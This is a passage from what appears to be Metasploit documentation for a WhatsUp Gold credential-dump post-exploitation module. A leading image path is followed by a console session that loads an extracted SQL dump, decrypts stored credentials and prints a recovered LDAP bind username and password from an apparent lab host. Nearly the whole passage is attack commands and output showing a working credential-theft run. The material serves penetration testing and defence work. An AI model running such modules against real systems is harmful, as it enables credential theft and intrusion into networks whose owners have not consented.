 The operator extracts the SQL data from the database into `/tmp/wug_dump.csv` out of band.

```
msf post(windows/gather/credentials/whatsupgold_credential_dump) > set CSV_FILE /tmp/wug_dump.csv
CSV_FILE => /tmp/wug_dump.csv
msf post(windows/gather/credentials/whatsupgold_credential_dump) > decrypt

[*] Hostname WINCEMEAT IPv4 192.168.101.144
[*] WhatsUp Gold Build 11.00.0004
[*] Init WhatsUp Gold crypto ...
[!] Could not extract dynamic encryption salt; type 3 ciphertext will not be decrypted
[*] Performing decryption of WhatsUp Gold SQL database
[+] 2 WUG rows loaded, 1 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 2 WUG rows processed
[*] 2 rows recovered: 1 plaintext, 1 decrypted (0 blank)
[*] 2 rows written (0 blank rows withheld)
[+] 1 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: LDAP Bind
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221219112059_default_192.168.101.144_whatsup_gold_dec_615423.txt
[*] Post module execution completed
msf post(windows/gather/credentials/whatsupgold_credential_dump) >
```
